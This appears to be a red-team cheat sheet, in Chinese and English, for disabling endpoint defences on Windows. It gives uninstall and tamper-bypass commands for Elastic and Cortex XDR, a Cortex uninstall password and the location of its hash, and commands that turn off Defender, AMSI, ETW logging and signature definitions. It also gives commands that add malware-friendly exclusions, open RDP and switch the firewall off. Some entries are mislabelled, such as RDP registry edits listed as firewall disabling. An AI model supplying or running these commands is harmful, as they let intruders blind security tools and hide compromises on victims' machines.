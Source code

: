   #### Sophos
	https://github.com/ayeskatalas/Sophos-Removal-Tool/
  #### Symantec
	https://knowledge.broadcom.com/external/article/178870/download-the-cleanwipe-removal-tool-to-u.html
  #### Elastic EDR
	https://www.elastic.co/guide/en/fleet/current/uninstall-elastic-agent.html
	  cd "C:\Program Files\Elastic\Agent\"
	  PS C:\Program Files\Elastic\Agent> .\elastic-agent.exe uninstall
	  Elastic Agent will be uninstalled from your system at C:\Program Files\Elastic\Agent. Do you want to continue? [Y/n]:Y
	  Elastic Agent has been uninstalled.
  #### Cortex XDR
	https://mrd0x.com/cortex-xdr-analysis-and-bypass/
	卸载密码：Password1
	Password hash is located in C:\ProgramData\Cyvera\LocalSystem\Persistence\agent_settings.db
	Look for PasswordHash, PasswordSalt or password, salt strings.

	禁用Cortex：将DLL改成随机值，然后重启
	reg add HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\CryptSvc\Parameters /t REG_EXPAND_SZ /v ServiceDll /d nothing.dll /f

	启动时禁用，重启生效
	cytool.exe startup disable

	禁用对 Cortex XDR 文件、进程、注册表和服务的保护
	cytool.exe protect disable

	禁用 Cortex XDR（即使启用了篡改保护）
	cytool.exe runtime disable

	禁用事件收集
	cytool.exe event_collection disable
  #### 禁用Windows Defender
	禁用Defender
	sc config WinDefend start= disabled
	sc stop WinDefend
	Set-MpPreference -DisableRealtimeMonitoring $true

	排除进程/位置
	Set-MpPreference -ExclusionProcess "word.exe", "vmwp.exe"
	Add-MpPreference -ExclusionProcess 'C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe'
	Add-MpPreference -ExclusionPath C:\Video, C:\install

	禁用扫描所有下载的文件和附件，禁用 AMSI
	PS C:\> Set-MpPreference -DisableRealtimeMonitoring $true; Get-MpComputerStatus
	PS C:\> Set-MpPreference -DisableIOAVProtection $true
	禁用 AMSI (设置为0为启动)
	PS C:\> Set-MpPreference -DisableScriptScanning 1 

	清零 ETW 会话对应的注册表值
	reg add "HKLM\System\CurrentControlSet\Control\WMI\Autologger\DefenderApiLogger" /v "Start" /t REG_DWORD /d "0" /f

	擦除当前存储的定义
	MpCmdRun.exe 的位置：C:\ProgramData\Microsoft\Windows Defender\Platform\
	MpCmdRun.exe -RemoveDefinitions -All

	删除签名
	PS > & "C:\ProgramData\Microsoft\Windows Defender\Platform\4.18.2008.9-0\MpCmdRun.exe" -RemoveDefinitions -All
	PS > & "C:\Program Files\Windows Defender\MpCmdRun.exe" -RemoveDefinitions -All

	禁用 Windows Defender 安全中心
	reg add "HKLM\System\CurrentControlSet\Services\SecurityHealthService" /v "Start" /t REG_DWORD /d "4" /f

	禁用实时保护
	reg delete "HKLM\Software\Policies\Microsoft\Windows Defender" /f
	reg add "HKLM\Software\Policies\Microsoft\Windows Defender" /v "DisableAntiSpyware" /t REG_DWORD /d "1" /f
	reg add "HKLM\Software\Policies\Microsoft\Windows Defender" /v "DisableAntiVirus" /t REG_DWORD /d "1" /f
  #### 防火墙
	允许进站
	如果系统未配置过远程桌面服务，第一次开启时还需要添加防火墙规则，允许3389端口，命令如下:
	>netsh advfirewall firewall add rule name="Remote Desktop" protocol=TCP dir=in localport=3389 action=allow
	>netsh firewall set portopening TCP 3389 ENABLE
	防火墙关闭
	>netsh firewall set opmode mode=disable
	>netsh advfirewall show allprofiles查看状态
	>netsh advfirewall set allprofiles state off 
	>sc stop windefend
	>sc delete windefend
	PS> Set-MpPreference -DisableRealtimeMonitoring 1
	PS> Set-MpPreference -Disablearchivescanning $true
	IP白名单
	>New-NetFirewallRule -Name morph3inbound -DisplayName morph3inbound -Enabled True -Direction Inbound -Protocol ANY -Action Allow -Profile ANY -RemoteAddress 10.10.10.10
	列出防火墙的阻止端口
	>$f=New-object -comObject HNetCfg.FwPolicy2;$f.rules |  where {$_.action -eq "0"} | select name,applicationname,localports
	禁用防火墙
	在 Windows 7 上通过 cmd 禁用防火墙
	reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurentControlSet\Control\Terminal Server"  /v fDenyTSConnections /t REG_DWORD /d 0 /f

	在 Windows 7 上通过 Powershell 禁用防火墙
	powershell.exe -ExecutionPolicy Bypass -command 'Set-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Terminal Server" -Name "fDenyTSConnections" –Value'`

	通过 cmd 在任何windows上禁用防火墙
	netsh firewall set opmode disable
	netsh Advfirewall set allprofiles state off